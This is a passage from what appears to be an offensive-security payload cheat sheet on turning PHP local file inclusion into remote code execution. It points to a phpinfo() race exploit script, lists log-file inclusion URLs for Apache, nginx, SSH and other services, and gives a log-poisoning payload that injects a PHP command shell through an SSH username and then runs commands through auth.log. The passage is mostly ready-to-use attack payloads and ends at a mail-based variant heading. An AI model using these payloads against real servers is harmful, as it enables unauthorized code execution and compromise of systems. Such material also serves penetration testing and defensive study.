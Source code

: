 ```python
        sys.exit(0)

print('[x] Something went wrong, please try again')
```


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```

### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### RCE via Mail
